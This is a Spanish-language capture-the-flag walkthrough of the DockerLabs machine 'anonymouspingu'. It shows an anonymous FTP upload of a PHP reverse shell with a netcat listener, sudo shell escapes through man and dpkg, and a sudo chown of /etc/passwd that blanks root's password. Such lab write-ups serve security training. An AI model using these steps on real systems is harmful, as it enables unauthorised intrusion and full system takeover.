

**Plataforma:** Dockerlabs\
**Sistema Operativo:** Linux

> **Tags:** `Linux` `FTP` `FileUpload` `Pivoting` `Sudoers`

## INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash
unzip anonymouspingu.zip
```

La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh anonymouspingu.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

## ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
```

```bash
nmap -n -Pn -sCV -p21,80 --min-rate 5000 172.17.0.2
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-15 18:10 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000031s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Mantenimiento
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

Durante el escaneo identificamos que los puertos `21` y `80` están abiertos.

El análisis con `nmap` revela que es posible acceder al servicio `FTP` con el usuario `anonymous`. Dentro encontramos varios archivos y directorios que coinciden con los que se alojan en el puerto `80`.

En particular, nos llama la atención el directorio `/upload`, sobre el cual tenemos todos los permisos.

Comprobamos si este directorio existe también en el puerto `80`.



Efectivamente existe, aunque inicialmente no contiene ningún archivo.

Para explotarlo, creamos un `script` en `PHP` que nos proporcione una `reverse shell`. En este caso utilizamos la `php-reverse-shell` de Pentestmonkey disponible en GitHub.

A través de la sesión `anonymous` en `FTP` navegamos hasta el directorio `/upload` y subimos el script:

```bash
put shell.php
```

Info:

```
ftp> put shell.php 
local: shell.php remote: shell.php
229 Entering Extended Passive Mode (|||38503|)
150 Ok to send data.
100% |***************************************|  5490        3.20 MiB/s    00:00 ETA
226 Transfer complete.
5490 bytes sent in 00:00 (2.85 MiB/s)
```

Una vez allí, colocamos un `listener` en nuestra máquina atacante

```bash
nc -nlvp 4444
```

A continuación, accedemos vía `HTTP` al directorio `/upload` para ejecutar el archivo.

Info:

```
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 55016
Linux 5f4ca3874341 6.12.38+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.12.38-1kali1 (2025-08-12) x86_64 x86_64 x86_64 GNU/Linux
 16:23:39 up  5:26,  0 user,  load average: 0.50, 0.38, 0.44
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$
```

Con ello obtenemos una `reverse shell` como el usuario `www-data`.

## TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```

`ctrl Z`

```bash
stty raw -echo; fg
```

```bash
reset xterm
```

```bash
export TERM=xterm
```

```bash
export BASH=bash
```

## ESCALADA DE PRIVILEGIOS

Comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for www-data on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 5f4ca3874341:
    (pingu) NOPASSWD: /usr/bin/man
```

Vemos que podemos ejecutar el binario `man` con privilegios del usuario `pingu`. Lo aprovechamos de la siguiente manera:

```bash
sudo -u pingu man man
```

Cuando tengamos abierta la interfaz de `man`, ejecutamos el comando `!/bin/bash` y pivotamos con éxito a dicho usuario.

Una vez como usuario pingu volvemos a comprobar permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for pingu on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 5f4ca3874341:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpkg
```

Comprobamos que podemos ejecutar el binario `dpkg` con privilegios del usuario `gladys`.

```bash
sudo -u gladys dpkg -l
```

De forma similar, lo aprovechamos ejecutando `!/bin/bash` desde la interfaz de `dpkg`, consiguiendo pivotar de nuevo con éxito.

Una vez como usuario gladys volvemos a comprobar permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:

```
Matching Defaults entries for gladys on 5f4ca3874341:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 5f4ca3874341:
    (root) NOPASSWD: /usr/bin/chown
```

Por último, observamos que podemos ejecutar el binario `chown` con privilegios de `root`.

Para escalar privilegios, primero modificamos el propietario del archivo `/etc/passwd`.

```bash
sudo /usr/bin/chown $(id -un):$(id -gn) /etc/passwd
```

A continuación, utilizamos `sed` para eliminar la `x` que aparece en la línea correspondiente a `root`, lo que elimina su contraseña.

Guardamos este archivo temporalmente en `/tmp`.

```bash
sed 's/^root:[^:]*:/root::/' /etc/passwd > /tmp/passwd.tmp
```

Después, sobrescribimos el original en `/etc/passwd` con nuestra versión modificada:

```bash
cp /tmp/passwd.tmp /etc/passwd
```

Finalmente, verificamos que el usuario `root` ya no tiene contraseña y conseguimos escalar con éxito.

```bash
su root
```

Info:

```
root@5f4ca3874341:/home/gladys# whoami
root
root@5f4ca3874341:/home/gladys#
```

Ya somos root!
